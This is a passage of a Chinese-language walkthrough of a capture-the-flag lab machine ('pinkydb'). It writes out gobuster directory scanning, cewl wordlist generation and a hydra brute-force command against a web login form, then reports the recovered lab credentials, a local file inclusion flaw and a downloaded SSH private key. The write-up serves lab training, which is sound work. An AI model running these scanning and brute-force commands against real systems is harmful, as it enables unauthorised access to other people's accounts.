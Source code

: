 7654 端口的 web 站点并未扫描到有价值信息

```bash
gobuster dir -u http:pinkydb:7654 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
```

### 社工字典、密码爆破（cewl、hydra）

cewl 生成单词列表作为密码字典 `cewl_pass.txt`，并基于已收集的信息构造简易的用户名字典`user_list`

```bash
cewl http://pinkydb/ -w cewl_pass.txt
cat cewl_pass.txt|sort -u|wc
```

hydra 对 [http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 表单进行暴力破解。

```bash
hydra -L user_list -P cewl_pass.txt pinkydb -s 7654 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username or Password"
```

[![](assets/1703831476-2ac40dbda0a63388ae04033c40229086.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224504-859a6fb0-a4c6-1.png)

> 拿到了一组登录凭据并成功登录网站。pinky:Passione

### web 登录、ssh 尝试

[http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 登录 pinky 用户的账号。  
观察 url 可以发现有个很明显的本地包含漏洞  
给了个私钥可下载，从文本内容中推测用户名为 stefano  
使用该密钥 ssh 登录需输入密码。  
修改 id\_rsa 权限 600，提示需要 passphrase，此密钥需要密码才能使用。
